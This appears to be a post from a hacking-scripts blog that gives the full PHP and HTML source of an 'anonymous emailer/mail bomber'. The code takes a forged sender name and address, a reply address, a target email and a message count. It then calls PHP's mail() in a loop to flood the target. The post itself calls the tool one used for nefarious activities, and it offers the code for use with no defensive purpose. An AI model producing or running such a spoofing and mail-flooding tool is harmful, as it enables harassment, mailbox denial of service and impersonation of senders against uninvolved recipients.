 ```yaml
---
id: 148
title: PHP Anonymous Emailer/Mail Bomber
author: admin
layout: post
guid: http://hackingscripts.com/?p=148
permalink: /php-anonymous-emailer/
categories:
  - PHP
tags:
  - Email bomber
  - PHP
---
```

Ok, so this isn&#8217;t really a hack script as such, but is also used for nefarious activities, and therefore is included here.


### PHP Anonymous Emailer/Mail Bomber Source Code

{% highlight php linenos %}&lt;html&gt;
&lt;head&gt;
  &lt;title&gt;PHP Anonymous Emailer/Mail Bomber&lt;/title&gt;
&lt;body bgcolor="black" text="white"&gt;
&lt;form action="" method="post"&gt;
&lt;br&gt;&lt;font size="5" face="verdana"&gt;Sender&lt;/font&gt;&lt;br&gt;
&lt;br&gt;
   &lt;font size="2" face="verdana"&gt;&lt;b&gt;Name:&lt;/b&gt;&lt;/font&gt;&lt;br&gt;
    &lt;input name="from_name" type="text" value="" size="50"&gt;
    &lt;br&gt;&lt;br&gt;
    &lt;font size="2" face="verdana"&gt;&lt;b&gt;Email Adress:&lt;/b&gt;&lt;/font&gt;&lt;br&gt;
    &lt;input name="from_mail" type="text" value="" size="50"&gt;
&lt;br&gt;
&lt;br&gt;
    &lt;font size="2" face="verdana"&gt;&lt;b&gt;Reply Adress:&lt;/b&gt;&lt;/font&gt;&lt;br&gt;
    &lt;input name="email_return" type="text" value="" size="50"&gt;
&lt;br&gt;
&lt;br&gt;
&lt;br&gt;
&lt;br&gt;
  &lt;/div&gt;
  &lt;font size="5" face="verdana"&gt;Recipient Details&lt;/font&gt;&lt;br&gt;&lt;br&gt;
  &lt;font size="2" face="verdana"&gt;&lt;b&gt;Recipient Email:&lt;/b&gt;&gt;&lt;/font&gt;&lt;br&gt;
    &lt;input name="target" type="text" size="50"&gt;
&lt;br&gt;
&lt;br&gt;
    &lt;font size="2" face="verdana"&gt;&lt;b&gt;Subject:&lt;/b&gt;&lt;/font&gt;&lt;br&gt;
    &lt;input name="subject" type="text" value="" size="50"&gt;
&lt;br&gt;
&lt;br&gt;
    &lt;font size="2" face="verdana"&gt;&lt;b&gt;Message:&lt;/b&gt;&lt;/font&gt;&lt;br&gt;
    &lt;textarea name="message" cols="38" rows="5"&gt;&lt;/textarea&gt;
  &lt;br&gt;&lt;br&gt;&lt;font size="2" face="verdana"&gt;&lt;b&gt;Number Of Messages To Send&lt;/b&gt;&lt;/font&gt;&lt;p&gt;
    &lt;input name="messages" type="text" id="messages" value="" size="15"&gt;
&lt;br&gt;
&lt;br&gt;
    &lt;input type=submit&gt;
  &lt;/p&gt;
&lt;/form&gt;
   <?php
       $header="From:$from_name&lt;$from_mail&gt;\n";
       $header .= "Reply-To:$email_return\n";
       $message2 = stripcslashes($message);
       for($x=1;$x&lt;$messages+1;$x++){
        mail($target,$subject,$message2,$header);
       }
   ?>
{% endhighlight %}